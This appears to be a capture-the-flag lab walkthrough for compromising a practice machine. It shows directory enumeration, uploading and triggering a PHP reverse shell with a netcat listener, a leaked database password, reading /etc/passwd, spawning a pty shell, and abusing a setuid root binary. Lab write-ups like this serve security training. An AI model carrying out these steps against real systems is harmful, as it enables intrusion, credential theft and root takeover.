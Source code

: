 Upload php reverse shell script

```
gobuster dir -u http://10.129.15.32 -w /usr/share/dirb/wordlists/common.txt
```

UPLOAD DIR: http://10.129.15.32/uploads

```
nc -nlvp 4444
```

Go to this url to trigger shell:
http://10.129.15.32/uploads/payload.php

SQL LOGIN (/var/www/html/cdn-cgi/login/db.php):
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>

USER: robert<br>
PASSWORD: M3g4C0rpUs3r!<br>
USER.TXT: f2c74ee8db7983851ab2a96a44eb7981<br>

To see who has /bin/bash permission:
```
cat /etc/passwd
```

To get interactive shell:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
sudo robert
```
To see if robert has any sudo permissions and then see robert's permissions:
```
sudo -l
id
```

PERMISSIONS: uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)<br>
TARGET: bugtracker group

Find files owned by bugtracker group
```
find -group bugtracker
```

TARGET: /usr/bin/bugtracker
PERMISSIONS: -rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker

root bit is set so file will always run as root.<br>

bugtracker program gives this error when bug not found:
```
cat: /root/reports/32322322323: No such file or directory
```
We can exploit the cat command because it is run insecurely
